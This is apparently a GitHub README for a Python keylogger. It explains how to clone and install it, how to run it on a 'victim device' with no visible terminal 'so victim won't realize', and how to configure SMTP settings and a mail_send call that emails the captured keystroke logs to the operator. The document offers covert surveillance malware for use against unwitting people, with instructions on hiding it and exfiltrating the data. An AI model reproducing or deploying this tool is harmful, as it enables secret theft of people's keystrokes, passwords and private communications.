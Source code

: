 # Keylogger

## Install 

    git clone https://github.com/OldKokoroz/Keylogger.git
    pip install pynput
    

## Setup

To try on your device run Keylogger.py 

to run on your victim device run main.py it will install requirements and 
automatically run keylogger.pyw (without a terminal) so victim won't realize 


## Getting log file 

| Server Name |  SMTP Server 	        | SMTP Port  |
| ----------- |  ---------------------  | ---------  |
| GMAIL 	  |  smtp.gmail.com 	    |  587       | 
| OUTLOOK 	  |  smtp-mail.outlook.com  |  587       | 
| YAHOO 	  |  smtp.mail.yahoo.com 	|  587       | 


You have to :

- open a new gmail account

         mail_send("your-email@gmail.com", "your-passwd", log_msg)  ---- Do not touch log_msg

- enter your address instead of first ""

- enter your password instead of second ""

- It is set to send mails to the mail you give (that means you send logs to yourself with your account)
